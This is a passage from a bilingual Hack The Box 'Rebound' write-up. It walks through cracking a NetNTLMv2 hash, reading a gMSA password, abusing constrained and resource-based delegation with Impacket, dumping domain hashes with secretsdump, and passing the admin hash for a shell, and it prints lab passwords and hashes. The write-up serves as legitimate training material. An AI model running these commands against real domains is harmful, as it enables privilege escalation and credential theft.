tbrady::rebound:6782b294c220a57c:77296b8ade6cbb568f7861e6e9120947:010100000000000041ea7c1fdf79da0142096417ae859a680000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e006800740062000700080041ea7c1fdf79da0106000400060000000800300030000000000000000100000000200000a389c9930c336bbf842c62a142e75c43b5dd50518b92fc846dace683e90c00b90a00100000000000000000000000000000000000090000000000000000000000
System.UnauthorizedAccessException: Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))
   at KrbRelay.IStandardActivator.StandardGetInstanceFromIStorage(COSERVERINFO pServerInfo, Guid& pclsidOverride, IntPtr punkOuter, CLSCTX dwClsCtx, IStorage pstg, Int32 dwCount, MULTI_QI[] pResults)
   at KrbRelay.Program.Main(String[] args)
```

>  获得NetNTLMv2 哈希

#### Crack Hash 破解哈希

> 哈希破解为 **543BOMBOMBUNmanda**

```
hashcat tbrady_hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol
...[snip]...
TBRADY::rebound:6782b294c220a57c:77296b8ade6cbb568f7861e6e9120947:010100000000000041ea7c1fdf79da0142096417ae859a680000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e006800740062000700080041ea7c1fdf79da0106000400060000000800300030000000000000000100000000200000a389c9930c336bbf842c62a142e75c43b5dd50518b92fc846dace683e90c00b90a00100000000000000000000000000000000000090000000000000000000000:543BOMBOMBUNmanda
...[snip]...
```

#### Auth Check 身份验证检查

> 这些 cred 适用于 SMB 和 LDAP，但不适用于 WinRM

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ netexec smb dc01.rebound.htb -u tbrady -p 543BOMBOMBUNmanda
SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [+] rebound.htb\tbrady:543BOMBOMBUNmanda 

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ netexec winrm dc01.rebound.htb -u tbrady -p 543BOMBOMBUNmanda
WINRM       10.129.6.63    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
WINRM       10.129.6.63    5985   DC01             [-] rebound.htb\tbrady:543BOMBOMBUNmanda

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ netexec ldap dc01.rebound.htb -u tbrady -p 543BOMBOMBUNmanda -k
SMB         dc01.rebound.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       dc01.rebound.htb 636    DC01             [+] rebound.htb\tbrady 
The lack of WinRM isn’t surprising, as TBrady is lacking any group that would
```

> 缺少 WinRM 并不奇怪，因为 TBrady 缺少任何可以实现这一点的组

```
*Evil-WinRM* PS C:\> net user tbrady
User name                    tbrady
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/8/2023 2:08:31 AM
Password expires             Never
Password changeable          4/9/2023 2:08:31 AM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   3/19/2024 2:29:58 AM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

### Auth as delegator$ 

##### **Recover Hash 恢复哈希**



TBrady 在 delegator\$ 帐户上具有 `ReadGMSAPassword`。我将展示三种不同的工具来使用 GMSA 收集 delegator$ 的 NTLM 哈希值。

###### **bloodyAD**

```
$ bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword

distinguishedName: CN=delegator,CN=Managed Service Accounts,DC=rebound,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524
msDS-ManagedPassword.B64ENCODED: 5bJ7n8t25Xmw187W3VrZocgFCr8VnedxIVdiml6khM2WAeex8N5QleqK4/TcRNUDQ8flaPX1lbwNF+GRtnHQMEM9WLY22DgoU/ZDOfYlHp/iSFjCEtRtRobUf+Mr1bbAiAY9+5Xb6nco/v8kWT4LE9hDH3bkfSe4TOJEVpHURKg5vJqEfL8hTviel0YNdJBF0VsMWJ1pWtSjwuW2bvncgqaMhol6i9Qpn0ADf7srMqMR5XXdVHxCcAyr08Q89fhlyTKOb4YfhnQvHGROtsUp0ySKNHLTv4bYDy6u2J/YBefaK6LraH+RwP/yRodXQTvD3wzDAmjx/QqRfEy7j1hL9A==
```

###### **GMSAPasswordReader.exe**

```
*Evil-WinRM* PS C:\ProgramData> upload GMSAPasswordReader.exe
Info: Uploading GMSAPasswordReader.exe to C:\ProgramData\GMSAPasswordReader.exe
                                                             
Data: 140628 bytes of 140628 bytes copied

Info: Upload successful!
```

```
*Evil-WinRM* PS C:\ProgramData> .\RunasCs.exe tbrady 543BOMBOMBUNmanda -l 2 "\programdata\GMSAPasswordReader.exe --accountname delegator$"
[*] Warning: The logon for user 'tbrady' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

Calculating hashes for Old Value
[*] Input username             : delegator$
[*] Input domain               : REBOUND.HTB
[*] Salt                       : REBOUND.HTBdelegator$
[*]       rc4_hmac             : 8689904D05752E977A546E201D09E724
[*]       aes128_cts_hmac_sha1 : BA45C8A99C448C63FBA3C5E9C433BF51
[*]       aes256_cts_hmac_sha1 : 6D0D5523515AC20557EF075F15462EEDFEC8D649A3E84DBC298FF73B7C720F72
[*]       des_cbc_md5          : 3192102AC4A10EAD

Calculating hashes for Current Value
[*] Input username             : delegator$
[*] Input domain               : REBOUND.HTB
[*] Salt                       : REBOUND.HTBdelegator$
[*]       rc4_hmac             : E1630B0E18242439A50E9D8B5F5B7524
[*]       aes128_cts_hmac_sha1 : 2498DB6793463D13F5EBEA04EFC110A0
[*]       aes256_cts_hmac_sha1 : 63EFD5D889B3006863B1E22A8EB92743B1B77D19C34AA9BB379F11AB65FA9771
[*]       des_cbc_md5          : 62FE0EEA868F4FCE
```

> “Current” `rc4_hmac`是 NTLM 哈希，与 `bloodyAD` 中的哈希匹配。

###### **Netexec**

> `netexec` 也可以获取 delegator$ 帐户的 NTLM

```
$ netexec ldap rebound.htb -u tbrady -p 543BOMBOMBUNmanda -k --gmsa
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        rebound.htb     636    DC01             [+] rebound.htb\tbrady:543BOMBOMBUNmanda 
LDAP        rebound.htb     636    DC01             [*] Getting GMSA Passwords
LDAP        rebound.htb     636    DC01             Account: delegator$           NTLM: e1630b0e18242439a50e9d8b5f5b7524
Auth Check  身份验证检查
The hash works for SMB and LDAP but not WinRM:
```

### Auth Check 身份验证检查

> 哈希适用于 SMB 和 LDAP，但不适用于 WinRM

```
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ netexec smb dc01.rebound.htb -u 'delegator$' -H e1630b0e18242439a50e9d8b5f5b7524
SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [+] rebound.htb\delegator$:e1630b0e18242439a50e9d8b5f5b7524 

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ netexec ldap dc01.rebound.htb -u 'delegator$' -H e1630b0e18242439a50e9d8b5f5b7524 -k
SMB         dc01.rebound.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       dc01.rebound.htb 636    DC01             [+] rebound.htb\delegator$ 

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ netexec winrm dc01.rebound.htb -u 'delegator$' -H e1630b0e18242439a50e9d8b5f5b7524
WINRM       10.129.6.63    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
WINRM       10.129.6.63    5985   DC01             [-] rebound.htb\delegator$:e1630b0e18242439a50e9d8b5f5b7524

```

### **Shell as Administrator**

> 在 Bloodhound 中，查看现在拥有的 Delegator 对象，其中包含有关委托的信息 Delegator = 委托者 = “把自己的身份权限借给别人用” 的那个对象


> 它没有不受约束的委派，但允许为 dc01 计算机对象委派 HTTP。它还具有 `browser/dc01.rebound.htb` 的 SPN。

> Impacket 脚本 `findDelegation.py` 将显示以下内容

```
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ findDelegation.py 'rebound.htb/delegator$' -dc-ip 10.129.6.63 -k -hashes :E1630B0E18242439A50E9D8B5F5B7524
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Getting machine hostname
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
AccountName  AccountType                          DelegationType  DelegationRightsTo    
-----------  -----------------------------------  --------------  ---------------------
delegator$   ms-DS-Group-Managed-Service-Account  Constrained
```

#### **Constrained Delegation 约束委派**

##### **Background 背景**

> 为了考虑约束委派，让我们以 Web 服务器和数据库服务器为例。用户向 Web 服务器进行身份验证，并通过将其服务票证（ST，也称为票证授予服务或 TGS 票证）发送到 Web 服务器。Web 服务器希望以用户身份对数据库进行身份验证，以仅获取允许用户访问的内容。它向 DC 发送一个特殊的 TGS 请求，要求向 DC 进行身份验证，并附加用户的 ST 或 TGS 票证。DC 将检查是否允许 Web 服务器委托给数据库服务器，以及来自用户的 ST / TGS 票证是否具有可转发标志。如果是这样，它将返回一个 ST / TGS 票证，表明这是尝试访问数据库的用户。这一切都利用了 [S4U2Proxy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a) 扩展。

> 那么，用户不使用 Kerberos 向 Web 服务器（可能是 NTLM）进行身份验证？Web 服务器需要 ST/TGS 票证，以便用户向 Web 服务器请求一个 DB。Web 服务器可以使用 [S4U2Self](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13) 扩展从数据中心请求用户向 Web 服务器的 ST/TGS 票证。仅当委派配置为“受协议转换约束” *时* ，此票证才会返回可转发标志。

> 上面的委托没有“w/ Protocol Transition”部分，所以我不能只请求 ST / TGS 票证并以任何用户的身份访问 DC。

##### **Demonstration 示范**

> 为了演示这一点，运行 `getST.py` 失败

```
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ getST.py -spn http/dc01.rebound.htb -impersonate administrator 'rebound.htb/delegator$' -hashes :E1630B0E18242439A50E9D8B5F5B7524
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user delegator$ or initial TGT not forwardable
```

> 它使用 S4U2Self 获取 delegator\$ 的管理员用户的票证，然后尝试使用 S4U2Proxy 转发它，但它不起作用。`-self` 标志告诉 `getSt.py` 在 S4U2Self 之后停止，获取 delegator$ 的管理员票证。生成的票证缺少 forwardable 标志：


#### **Resource-Based Constrained Delegation 基于资源的约束委派**

##### **Background 背景**

> 在上述约束委派中，DC 跟踪 Web 服务器对象上允许它为数据库委派（无需协议转换）。在基于资源的约束委派中，情况类似，但 DC 跟踪数据库对象上的受信任账户列表、允许委托给它的服务，并且资源可以修改自己的列表。

##### **Add ldap_monitor to delegator$**

> 为了继续进行这种攻击，我将使用 Impacket 的 `rbcd.py` 脚本将 ldap_monitor 设置为 delegator$ 的受信任委托账户。

- `rebound/delegator$` - 要目标的账户。将作为此账户向 DC 进行身份验证。
- `-hashes :E1630B0E18242439A50E9D8B5F5B7524` - 此账户要进行身份验证的哈希值。
- `-k` - 使用 Kerberos 身份验证（它将使用哈希来获取票证）。
- `-delegate-from ldap_monitor` - 设置允许委派 `ldap_monitor`。
- `-action write` - `write` 用于设置值。`-action` 的其他选项包括 `read`、`remove` 和 `flush`。
- `-dc-ip dc01.rebound.htb` - 告诉它在哪里可以找到 DC。
- `-use-ldaps` - 修复上述绑定问题。

> 所有这些共同更新了 RBCD 列表

```
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ rbcd.py 'rebound.htb/delegator$' -hashes :E1630B0E18242439A50E9D8B5F5B7524 -k -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -dc-ip dc01.rebound.htb -use-ldaps
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ldap_monitor can now impersonate users on delegator$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ findDelegation.py 'rebound.htb/delegator$' -dc-ip 10.129.6.63 -k -hashes :E1630B0E18242439A50E9D8B5F5B7524
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Getting machine hostname
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
AccountName   AccountType                          DelegationType              DelegationRightsTo    
------------  -----------------------------------  --------------------------  ---------------------
ldap_monitor  Person                               Resource-Based Constrained  delegator$            
delegator$    ms-DS-Group-Managed-Service-Account  Constrained                 http/dc01.rebound.htb 
```

> 另外一个注意事项 - 我浪费了大量时间获得“无效的服务器地址”错误，因为我的 `/etc/hosts` 文件中没有将“dc01”与盒子的 IP 相关联。

##### **Get ST / TGS Ticket for DC01\$ on delegator$**

> flag:
> 现在，ldap_monitor 账户能够以 delegator$ 上的任何用户身份请求服务票证。我将以 DC 计算机账户为目标，因为管理员账户被标记为敏感账户，这会给出 `NOT_DELEGATED` 标志：

```
(LDAPS)-[rebound.htb]-[rebound\oorend]
PV > Get-DomainUser -Identity Administrator
cn                                : Administrator
description                       : Built-in account for administering the computer/domain
distinguishedName                 : CN=Administrator,CN=Users,DC=rebound,DC=htb
memberOf                          : CN=Group Policy Creator Owners,CN=Users,DC=rebound,DC=htb
                                    CN=Domain Admins,CN=Users,DC=rebound,DC=htb
                                    CN=Enterprise Admins,CN=Users,DC=rebound,DC=htb
                                    CN=Schema Admins,CN=Users,DC=rebound,DC=htb
                                    CN=Administrators,CN=Builtin,DC=rebound,DC=htb
name                              : Administrator
objectGUID                        : {37857665-6e2e-4f12-9976-5c9babcd8282}
userAccountControl                : NORMAL_ACCOUNT [1114624]
                                    DONT_EXPIRE_PASSWORD
                                    NOT_DELEGATED
badPwdCount                       : 2
badPasswordTime                   : 03/18/2024
lastLogoff                        : 0
lastLogon                         : 03/13/2024
pwdLastSet                        : 04/08/2023
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4078382237-1492182817-2568127209-500
adminCount                        : 1
sAMAccountName                    : Administrator
sAMAccountType                    : 805306368
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=rebound,DC=htb
```

> 我将在 delegator\$ 上获得一张 ST / TGS 票证，作为 DC01$，`getST.py`：

```
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ getST.py 'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate DC01$
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

> 有一个用于重置委托的清理脚本，因此，如果这不起作用，我将确保重新运行上面的 `rbcd.py` 脚本。

> 这会将 ST / TGS 票证作为 delegator$ 的 DC 计算机帐户保存到一个文件中，这次它是可转发的：

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ describeTicket.py DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache 
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 2f4121ed16ccd3c37f87048cd33c2d73
[*] User Name                     : DC01$
[*] User Realm                    : rebound.htb
[*] Service Name                  : browser/dc01.rebound.htb
[*] Service Realm                 : REBOUND.HTB
[*] Start Time                    : 20/03/2024 21:07:45 PM
[*] End Time                      : 21/03/2024 07:07:44 AM
[*] RenewTill                     : 21/03/2024 21:07:44 PM
[*] Flags                         : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : L0Eh7RbM08N/hwSM0zwtcw==
[*] Kerberoast hash               : $krb5tgs$18$USER$REBOUND.HTB$*browser/dc01.rebound.htb*$4d4789a328d9af5ec4df01a6$714f71eeea8667ca4d47e012a6d23be00877af50090e6052542a508026058204d70e3f0ebd254d46c2f0578adf5bdeef765ee4142c714a40292060c2c2812b45aa34320acd323210c399dddeb5460b8b206d554e6cce0ebd67ff7b3596e5bf897575cb26d34a5743b6fb4f41817c8f2a68ff7fe63e04714a7eb0e3602711762ddadde7c0b718c288c4738652aaed3e263ce0121ee6bddb82699b578ba039734fc960b7a89de99a0bc3024403aff637cc2403db270723591cbd85802569c3024660534a4e3c0e885f27e6046ec8ff643cf77252d4930ead317c4dc3e4ff14329e21cc5f3a295dcb5af107b931ddf0c27a656d5d69582ecdcf8c655463b8034b2ba4e7b4f0b9897e2f8d609e7421827e5dc29932aa5f0dfb2cf69917b9e91238b37ce08cdec6c0ebfcb60164e7147a95e2eb2ecef8f08da786a35ff69834a96d3696c3b90a0b5dba4162ea6d83c6494b4ced3a8897a92b87a8af82c97f82d0e760109e39305daea6ba575355fd2f19f739886f78bff96d60f8110bb29d57048b0b00d8954ea044106e2460070ed56333eedc447421f4799f9831a39e80516a806ca83ee3572cb48081984442d87533b12e85ba0c732f602b423e2dc551c2e49e360d0f6b839ba5f3797804bc98d44457a0906e3e1560252189d3d0560a45c6ecb89550bbf19cdcd3359dc9113facbc2252efca92422bf07e720e3f7d39f5aaa330dd5e7d9ecbb1de8ef14548e65d96218438f48b24e62a08493f5885f357ca3a3ca3fa445edee4ffe4360100cba9315244a45b9a836c62fa0fbacf28c7472aa4929e39d3749cd99114dfe632dabad53fec59d4e8a8b89823a63005a7ec9ef286fcacc546e641b33c57708581c3e5bc1564892b3b4ce6e5ce53ce3a585815b03ffae2ae458a9318794ca0bf9f0f4868d9e43824df39bc390efd2edb9750d254fdef3915b34d88ee702e159a26fbc757d615e1146020a0fca06627aeebfbd4a60e23bd50c2b0de1968d153a7760e72b03f0a5698484be0152fd25fd109b3c286eb7a4e79c390c2f65a1c1d2f330e5b654f96972f6ecb812278f521e3e7d7845e1ca5dc1b017416a831ee785df153330a78f7407767b65afe032dcccec94354ba91778cc414b8cc585f8321918a57b3065a15369225c3643d827634211bd2558ec476d801bc5e6b878b4c075f980b0bfd0eede90905ddaa121c0d051f6636e9bcdc70f7c7d3138e8656461d5d94fa815d5e77dfae45513fa768bdad3fd112d06e6d23fdea49993adb1c1ce6447b90f66a11d7a0ba097478970483c5e2bb1e3501ac892b2ca4d4debc0c88a51d1a0eb42c8f9666cc4f95fbdcaaadd310b27e4a4e9db9a95250d3fa0e1bc79721034b0dda970955a90a404fb1e6c7ab72db9cec14079184ade2c3c64d8fe83b5bbc67557c172a5b0f84625ed3fdd6ad32897014161864de5c30e5a290c8f314e4f52d3a5a8dbc55dbf9a84f892c3027cf1eefb9641f4c8a88ee56a7600efd396f7ba3803f1cef83a2b5b332f425d3c75b247fd64782e5e56a98997127a399a79ac7e9533fe3ebe779698dcb56723575d112c34d51059dea6eb749b7f28712ab73803ca224c0520475e2a491278a50b71c85a9e4fcbc81b4239278588cb64d2f15e713e22631875b276a10915cc833420173cfd31b79849fca83dc944f9112ded8c75f6d4f6c7ea9e66615080085f4b61e3bbef3594880dca45e4ad86253ebb3431899784f112bd80ea63d566da5616c5539b49240d33e8253763e5804ebcda6a170c0fb6823225aa5d57a81e116ec14e47b4bd9c79252a0
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : browser/dc01.rebound.htb
[*]   Service Realm               : REBOUND.HTB
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

> 这就是上面缺少的。

#### **Another Shot At Constrained Delegation 对约束委派的又一次尝试**

##### **Create ST / TGS Ticket**

> 现在我有一个 ST / TGS 票证作为 delegator\$ 的 DC01$，delegator\$ 可以使用它与约束委托一起在 DC01 上获得 ST 作为 DC01。

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ getST.py -spn http/dc01.rebound.htb -impersonate 'DC01$' 'rebound.htb/delegator$' -hashes :E1630B0E18242439A50E9D8B5F5B7524 -additional-ticket DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache 
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*]     Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
```

##### **Dump Hashes**

> 使用此票证作为计算机帐户，我可以从 DC 转储哈希值。`KRB5CCNAME` 环境变量将指向票证，然后 `-k` 和 `-no-pass` 选项将告知 `secretsdump.py` 使用它

```assembly
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ KRB5CCNAME='DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache' secretsdump.py -no-pass -k dc01.rebound.htb -just-dc-ntlm
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:176be138594933bb67db3b2572fc91b8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1108b27a9ff61ed4139d1443fbcf664b:::
ppaul:1951:aad3b435b51404eeaad3b435b51404ee:7785a4172e31e908159b0904e1153ec0:::
llune:2952:aad3b435b51404eeaad3b435b51404ee:e283977e2cbffafc0d6a6bd2a50ea680:::
fflock:3382:aad3b435b51404eeaad3b435b51404ee:1fc1d0f9c5ada600903200bc308f7981:::
jjones:5277:aad3b435b51404eeaad3b435b51404ee:e1ca2a386be17d4a7f938721ece7fef7:::
mmalone:5569:aad3b435b51404eeaad3b435b51404ee:87becdfa676275415836f7e3871eefa3:::
nnoon:5680:aad3b435b51404eeaad3b435b51404ee:f9a5317b1011878fc527848b6282cd6e:::
ldap_monitor:7681:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
oorend:7682:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
winrm_svc:7684:aad3b435b51404eeaad3b435b51404ee:4469650fd892e98933b4536d2e86e512:::
batch_runner:7685:aad3b435b51404eeaad3b435b51404ee:d8a34636c7180c5851c19d3e865814e0:::
tbrady:7686:aad3b435b51404eeaad3b435b51404ee:114e76d0be2f60bd75dc160ab3607215:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:989c1783900ffcb85de8d5ca4430c70f:::
delegator$:7687:aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524:::
[*] Cleaning up... 
```

#### **Shell**

> 使用 admin 哈希，我可以将其传递给 [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) 以获取 shell

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ evil-winrm -i rebound.htb -u administrator -H 176be138594933bb67db3b2572fc91b8

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
4d72abcc************************
```

